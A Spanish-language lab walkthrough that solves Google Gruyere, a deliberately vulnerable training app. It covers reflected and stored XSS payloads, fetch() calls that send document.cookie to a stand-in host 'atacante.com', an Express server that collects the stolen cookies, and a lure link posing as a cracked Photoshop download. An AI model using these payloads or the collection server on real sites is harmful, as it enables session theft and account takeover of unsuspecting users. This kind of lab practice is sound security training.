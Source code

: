 ```yaml
---
title: Gruyere
description: Guia de resolución de Google Gruyere.
date: 2024-11-03
tags: ["second tag", "posts with two tags"]
---
```


# Gruyere

Web insegura de google.

## XSS (Cross Site Scripting)

### Reflected XSS

Si añadimos al final de la url cualquier cosa, se muestra en la web.

Probamos a añadir un script que nos muestre un alert con un mensaje como:

```html
<script>alert("xss")</script>
```

No funciona, pero si escapamos los caracteres especiales, si funciona:

```html
%3Cscript%3Ealert%28%22XSS%21%22%29%3C%2Fscript%3E
```
### Stored XSS (File Upload) 

Hay una seccion en la que podemos subir archivos, empezamos a testear que deja subir:

- Podemos a subir una imagen con limitacion de tamaño.
- Podemos a subir un html normal.
- Podemos subir un html con javascript que nos muestre un alert con un mensaje.
- Podemos subir un html con javascript que nos muestre un alert con un mensaje y que muestre el contenido de la cookie.
- Probamos a subir un html con js que haga un fetch mandando la cookie a un servidor externo, si mandamos el enlace a alguien y lo abre, nos llegará la cookie:

```html
<script>
fetch(`http://atacante.com/grab?data=${document.cookie}`)
</script>
```

### Stored XSS (Snippet)

Hay una seccion en la que podemos añadir un snippet de texto.

Si mandamos `<h1>hola</h1>` se renderiza como un h1, podemos inyectar html.

Intentamos meter `<script>alert("xss")</script>`, no funciona.

Probamos con `<p onclick="alert('xss')">hola</p>`, no funciona.

Probamos con `<p onmouseover="alert('xss')">hola</p>`, funciona.

### Stored XSS (HTML Attribute)

Podemos inyectar js en los atributos de las etiquetas html en la seccion de perfil.

`red;' onmouseover='alert("xss")` consigue ejecutar el alert.

### Cookies

### Explotacion final y robo de cookies

Tenemos varias formas de ejecutar un xss, pero necesitamos un servidor que nos reciba la cookie.

```javascript
const express = require('express');
const cors = require('cors');
const fs = require('fs');
const app = express();
const port = 3000;
let texto = "";

app.use(cors());
//allow origin on neocities
app.use((req, res, next) => {
    res.header('Access-Control-Allow-Origin', '*');
    next();
});
app.use(express.urlencoded({ extended: true }));
app.use(express.static('public'));

app.get('/grab', (req, res) => { // captura los datos enviados por el cliente
    const data = req.query.data;
    if(data){
        texto = data;
        res.send('Datos guardados correctamente.');
    } else {
        res.status(400).send('No se proporcionó ningún dato.');
    }
});

app.get('/loot', (req, res) => { // envía los datos guardados al cliente
    res.send(texto);
});

app.get('/clear', (req, res) => { // limpia el archivo de salida
    texto = "";
    res.send('Archivo limpiado correctamente.');
});

app.listen(port, () => {
    console.log(`Servidor escuchando en http://localhost:${port}`);
});
```

Una vez desplegado y con una url, creamos el siguiente archivo html:


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <script>
    fetch(`atacante.com/grab?data=${document.cookie}`)
  </script>
</body>
</html>
```

Creamos una cuenta en Gruyere.

Vamos a la seccion `upload`.

Subimos nuestro `html` y copiamos la url al archivo.

Vamos a la seccion `New snippet` y mandamos lo siguiente:

```html
<a href="https://google-gruyere.appspot.com/533856798844119184635188467180043151698/hacker/game.html">Descargar Adobe-Photoshop-CRACKED.exe</a>
```

Cuando un usuario haga click, me enviará la cookie al servidor.

Cualquiera de los otros metodos nos permite hacer lo mismo, solo debemos añadir el fetch.